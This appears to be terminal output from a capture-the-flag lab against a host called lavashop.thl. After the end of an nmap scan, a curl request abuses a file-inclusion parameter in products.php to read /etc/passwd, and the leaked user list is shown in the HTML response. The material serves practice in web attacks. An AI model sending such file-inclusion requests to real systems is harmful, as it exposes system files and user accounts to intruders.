Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 20 16:43:15 2025 -- 1 IP address (1 host up) scanned in 12.39 seconds
                                                                                                                                                  
┌──(kali㉿kali)-[~/Documents/lavashop]
└─$ 

====================================================================================================================================================================

====================================================================================================================================================================

====================================================================================================================================================================

curl 'http://lavashop.thl/pages/products.php?file=/etc/passwd'






─$ curl 'http://lavashop.thl/pages/products.php?file=/etc/passwd'  



  <section style="margin-bottom:1.5rem; padding:1rem; background:rgba(0,0,0,.25); border:1px solid rgba(255,255,255,.1); border-radius:12px;">
    <p style="margin:0 0 .75rem;">Incluyendo: <code>/etc/passwd</code></p>
    <pre style="white-space:pre-wrap; overflow:auto; padding:.75rem; background:rgba(0,0,0,.35); border-radius:8px;">
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
debian:x:1000:1000:debian,,,:/home/debian:/bin/bash
Rodri:x:1001:1001::/home/Rodri:/bin/bash
    </pre>
  </section>
